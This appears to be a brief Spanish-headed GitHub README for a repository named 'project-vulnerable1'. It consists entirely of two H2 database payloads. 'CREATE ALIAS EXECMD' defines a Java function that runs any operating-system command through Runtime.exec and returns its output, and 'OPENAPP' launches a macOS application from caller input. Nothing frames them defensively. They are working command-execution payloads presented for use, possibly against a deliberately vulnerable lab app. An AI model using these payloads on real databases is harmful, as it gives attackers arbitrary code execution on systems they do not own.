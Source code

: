 # project-vulnerable1

LINEA DE COMANDOS
```
CREATE ALIAS EXECMD AS $$ String execmd(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```

ABRIR APP EN MAC
```
CREATE ALIAS OPENAPP AS $$ String execmd(String cmd) throws java.io.IOException { Runtime.getRuntime().exec("open -a "+cmd);return null; }$$;
```
